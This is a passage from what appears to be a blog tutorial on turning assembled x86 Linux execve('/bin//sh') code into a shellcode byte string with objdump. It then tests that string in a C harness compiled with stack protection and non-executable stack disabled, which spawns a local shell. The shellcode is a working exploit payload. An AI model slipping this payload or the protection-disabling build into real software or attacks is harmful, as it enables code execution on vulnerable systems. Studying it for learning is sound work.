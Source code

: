 ```
  \xb0
  \x0b
  \xcd
  \x80
```
Nearly! Fortunately echo has a -n flag that prevents it from printing newlines
```
  $ for i in $(objdump -d execve.o | grep "^ " | cut -f2); do echo -n '\x'$i; done
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80$
```
So close!!!! We can just put an extra echo at the end
```
  $ for i in $(objdump -d execve.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
  \x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
  $
```
# Test the shellcode
Now to test the shellcode we need a program we can put this in to run it. Below
is a C program whic I did not create myself (Thanks Vivek from
[SecurityTube](http://www.securitytube.net)

{% highlight c%}
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f" \
"\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89" \
"\xe1\xb0\x0b\xcd\x80";

main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
{% endhighlight %}

This program just passes execution to our shellcode which we placed in the code
string. Compile it using 
```
  $ gcc -fno-stack-protector -z execstack -o shell_test shell_test.c
  $ ./shell_test 
  Shellcode Length:  25
  $  
```
as you can see the program printed the length of the shellcode and then passed
control of execution to our shellcode and we have now ended up with a shell!

Hope you enjoyed this. Check out [SecurityTube](http://www.securitytube.net)
they have free videos on x86 linux and windows assembly if you are interested in
that sort of thing!
